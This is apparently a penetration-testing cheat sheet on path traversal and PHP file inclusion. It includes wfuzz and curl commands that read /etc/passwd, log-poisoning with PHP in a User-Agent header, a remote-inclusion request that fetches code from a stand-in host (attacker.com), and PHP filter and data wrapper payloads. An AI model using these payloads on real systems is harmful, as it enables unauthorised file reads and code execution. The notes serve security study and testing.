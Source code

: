 # Traversal/File Inclusion

## Things to remember
  *  Traversal allows for arbitrary file read
  *  File inclusion uses the backend language to execute arbitrary code
      *  Syntax for LFI/RFI will depend on the backend language
      *  As always, enumerate the web stack thoroughly
  *  Most examples of file inclusion are PHP applications
  *  PayloadsAllTheThings has a page covering various [bypass and RCE techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

## Useful tools
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) for manually fuzzing web app inputs for traversal/inclusion
  *  [`seclists`](https://github.com/danielmiessler/SecLists) for traversal/inclusion fuzzing lists
  *  [`curl`](https://curl.se/) for traversal/inclusion one-liners

## Fuzzing for traversal/file inclusion
  *  `wfuzz` for traversal/file inclusion fuzzing
      *  Fuzz more than just parameters! Cookies, headers, etc.
  *  Carefully parse HTTP POST requests before using `wfuzz`
      *  Be specific with things like cookies, headers, URL structure, etc.
      *  Failing to provide these values can produce ineffective requests

```
wfuzz -w /path/to/traversal.txt -b 'exampleCookie=cookieValue' 'http://10.0.0.1/traversal?param=FUZZ'
wfuzz -w /path/to/inclusion.txt -H 'exampleHeader: headerValue' -d 'param=FUZZ' 'http://10.0.0.1/inclusion'
```

## Exploiting path traversal
  *  Consider targeting world-readable files to confirm traversal
      *  `apparmor`, blacklists, etc. interfere with these tests
  *  Path traversal provides arbitrary file read
      *  Gather internal info such as OS/kernel version, network config, users, etc.
      *  Configuration and source code files can be juicy

```
/etc/passwd
C:\windows\system32\drivers\etc\hosts
C:/windows/system32/drivers/etc/hosts
```

```
curl -b 'exampleCookie=cookieValue' 'http://10.0.0.1/traversal?page=/etc/passwd'
curl -k -X 'POST' -H 'exampleHeader: headerValue' -d 'page=/etc/passwd' 'https://10.0.0.1/traversal'
```

## Exploiting file inclusion
  *  File inclusion provides arbitrary code execution AND file read
      *  Enumerate web stack and research backend language for syntax
  *  Any means of modifying filesystem contents could escalate to RCE
      *  Log files are easily modified by interacting with the web service
      *  Research OS/web server version for potential log file locations
      *  Double quotes (`"`) may be automatically escaped in log files causing syntax errors
  *  Remote file inclusion coerces the backend to fetch code from a remote source

```
curl -A '<?php phpinfo(); ?>' 'http://10.0.0.1'
curl -b 'exampleCookie=cookieValue' 'http://10.0.0.1/inclusion?page=/var/log/apache2/access.log'
curl -k -X 'POST' -H 'exampleHeader: headerValue' -d 'page=http://attacker.com/rfi.php' 'https://10.0.0.1/remoteinclusion'
```

## PHP specific techniques
  *  PHP version `5.3 and lower` [terminates strings at any null byte](https://www.php.net/manual/en/security.filesystem.nullbytes.php)
      *  `%00` can be used to truncate the end of any supplied string
  *  [PHP wrappers](https://www.php.net/manual/en/wrappers.php) can be leveraged to make file inclusion easier
      *  [`base64-encode`](https://www.php.net/manual/en/filters.convert.php) and [`data`](https://www.php.net/manual/en/wrappers.data.php) wrappers are particularly useful
      *  More wrappers covered in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```
php://filter/convert.base64-encode/resource=example.php
data:text/plain,<?php phpinfo(); ?>
```
